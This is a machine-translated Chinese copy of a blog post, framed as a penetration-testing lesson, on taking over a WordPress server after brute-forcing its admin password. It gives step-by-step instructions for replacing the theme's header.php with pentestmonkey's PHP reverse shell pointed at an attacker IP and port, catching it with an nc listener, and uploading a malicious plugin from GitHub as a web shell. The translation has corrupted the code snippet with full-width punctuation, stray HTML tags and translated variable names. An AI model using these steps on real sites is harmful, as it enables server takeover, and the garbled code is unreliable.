 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [rioasmara.com](https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell/)

> 大家好，我想继续我们的最后一次尝试，我们试图渗透到wordpress应用中……

[跳到内容](#content)

大家好，

我想继续我们的最后一个练习，我们尝试渗透到wordpress应用程序中。

我们进行了蛮横的努力，最终找到了一个有效的管理员密码“ admin”。服务器管理员将wordpress安装保留为默认设置，这是一个非常致命的错误。

进入wordpress之后，下一步该怎么做？您可能要做的最好的事情是安装反向外壳程序或将Web外壳程序上载到服务器，以便在服务器中进行更好的导航。我会在这篇文章中解释两者

**反壳**

反向外壳程序是一种机制，通过利用Web服务器触发连接回CnC服务器的方式，您可以拥有服务器外壳程序。在CnC服务器上，将创建一个侦听服务器，以等待来自服务器的连接。

好处

1.  像SSH一样，它可以让您完全控制服务器外壳
2.  允许您在服务器上进行进一步的枚举

缺点

1.  如果您需要分析数据库，那么在控制台中进行操作将非常繁琐
2.  如果您没有IP，应用程序服务器可以到达CnC服务器，那么做反向Shell非常困难
3.   由于Web服务器将触发TCP连接返回到CnC，因此更容易成为防火墙的目标

**网页外壳**

Web Shell是一种我们上传文件成为后门的方法，它为您提供一些管理Web服务器的功能，例如文件编辑器，文件浏览器，SQL数据库浏览器等，并且取决于后门的成熟度

好处

1.  在服务器上轻松导航和文件处理
2.  GUI .. GUI .. GUI
3.  由于这是正常的HTTP请求，因此很难检测，并且如果将其封装在HTTPS中，则中间安全设备甚至更难检测到
4.  易于编辑某些文件

缺点

1.  进行进一步枚举的灵活性较差

好的，现在让我们开始做反向shell。

1.  登录到WordPress
2.  转到外观–>编辑器  
    ![](https://rioasmara.files.wordpress.com/2019/02/22.png?w=840)
3.  在右侧，您可以选择header.php
4.  您可以将所有header.php的代码更改为php反向shell代码。我从pentestmonkey [http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz)获得了它[](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz)
5.  在将header.php代码更改为已下载文件中的php代码之后，不要忘记更改**$ ip**和**$ port**使其指向您的主机，如下所示
    
    ```
    <？php
     
    set_time_limit（0）;
    $ VERSION = “ 1.0” ;
    $ ip = <strong> '192.168.5.200' </ strong>; //更改此
    $ port = <strong> 8090 ; </ strong> //更改此
    $ chunk_size = 1400 ;
    $ write_a = null ;
    $ error_a = null ;
    $ shell = 'uname -a; w; ID; / bin / sh -i' ;
    $ daemon = 0 ;
    $调试= 0 ;
    ```
    
6.  新闻更新文件  
    ![](https://rioasmara.files.wordpress.com/2019/02/23.png?w=840)
7.  您需要在端口8090上启动侦听服务器，以使用如下命令从服务器接受反向连接：**nc -nlvp 8090**
8.  这里有反向外壳

[![](https://asciinema.org/a/229539.svg)](https://asciinema.org/a/229539)

上面的步骤是设置反向外壳程序，该外壳程序允许服务器创建回主机的连接

让我们开始上传webshel​​l。

1.  登录到WordPress
2.  转到pluggin并安装一个新的pluggin  
    ![](https://rioasmara.files.wordpress.com/2019/02/24.png?w=840)
3.  在此之前，您可以从[https://github.com/wetw0rk/malicious-wordpress-plugin.git](https://github.com/wetw0rk/malicious-wordpress-plugin.git)下载该插件。[](https://github.com/wetw0rk/malicious-wordpress-plugin.git)
4.  您可以通过将插件zip上传到wordpress来添加新插件  
    ![](https://rioasmara.files.wordpress.com/2019/02/25.png?w=840)
5.  然后按立即安装
6.  成功安装后，您可以在列表中看到您的插件  
    ![](https://rioasmara.files.wordpress.com/2019/02/26.png?w=840)
7.  现在，您可以使用Webshel​​l的完整路径来访问Webshel​​l。在我的wordpress路径中，我可以使用以下路径访问文件：[http://192.168.5.193/wordpress/wp-content/plugins/wp-shell-plugin-master/wp-shell-plugin.php](http://192.168.5.193/wordpress/wp-content/plugins/wp-shell-plugin-master/wp-shell-plugin.php)  
    ![](https://rioasmara.files.wordpress.com/2019/02/27.png?w=840)
8.  如上所述，您可以看到该Web外壳已打开。您可以使用该Web浏览和浏览服务器中的某些文件。

现在，您已经可以通过Web和反向tcp来完成Shell了。渗透测试人员必须具备的一项关键技能，因为它将使接管服务器的过程变得更容易，从而使结果更快。